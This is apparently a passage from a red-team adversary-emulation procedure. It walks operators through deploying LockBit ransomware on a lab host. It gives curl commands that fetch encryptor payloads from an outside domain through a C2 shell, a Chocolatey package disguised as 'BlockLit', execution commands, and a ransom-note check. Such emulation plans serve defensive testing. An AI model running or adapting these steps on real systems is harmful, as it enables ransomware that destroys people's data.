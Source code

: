 * If no elevated command prompt is currently open, search for Command Prompt
and right-click to Run As Administrator
  
* Run the following command in the command prompt to download LockBit to
`quirrell (10.111.9.202)`

  ```cmd
  choco install BlockLit -y
  ```
  
* Run the following command in the command prompt to execute LockBit:

  ```cmd
  C:\ProgramData\chocolatey\lib\BlockLit\tools\main.exe -ps
  ```
  
* Verify that the hosts were encrypted by checking the presence of the
`sk12uyqzk.README.txt` ransom note in directories.

### ThunderShell Fails to Download LockBit Using Choco

#### :biohazard: Tier 1 Procedures

* Switch to the ThunderShell tab and enter the following command to download
LockBit to `quirrell (10.111.9.202)`:

  ```cmd
  md C:\ProgramData\chocolatey\lib\BlockLit\tools\
  curl http://1nvisibility-cl0ak.net/files/bl.exe -o C:\ProgramData\chocolatey\lib\BlockLit\tools\main.exe
  ```

### LockBit Fails to Execute

#### :biohazard: Tier 1 Procedures

* If ThunderShell **is** available:
  * Switch to the ThunderShell tab and enter the following command to download
  the alternative LockBit batch script to `quirrell (10.111.9.202)`:

    ```cmd
    md C:\ProgramData\chocolatey\lib\BlockLit\tools\
    curl http://1nvisibility-cl0ak.net/files/bl.bat -o C:\ProgramData\chocolatey\lib\BlockLit\tools\83426913-9751-4a75-b159-65f7bf232961.bat
    ```

  * Enter the following command to download the minimal LockBit encryption
  executable to `quirrell (10.99.9.202)`:

    ```cmd
    curl http://1nvisibility-cl0ak.net/files/minimal.exe -o C:\ProgramData\chocolatey\lib\BlockLit\tools\83426913-9751-4a75-b159-65f7bf232961.min.exe
    ```

  * Enter the following command to execute the alternative batch script:

    ```cmd
    C:\ProgramData\chocolatey\lib\BlockLit\tools\83426913-9751-4a75-b159-65f7bf232961.bat C:\ProgramData\chocolatey\lib\BlockLit\tools\83426913-9751-4a75-b159-65f7bf232961.min.exe 10.111.9.200 10.111.9.205 10.111.9.202
    ```
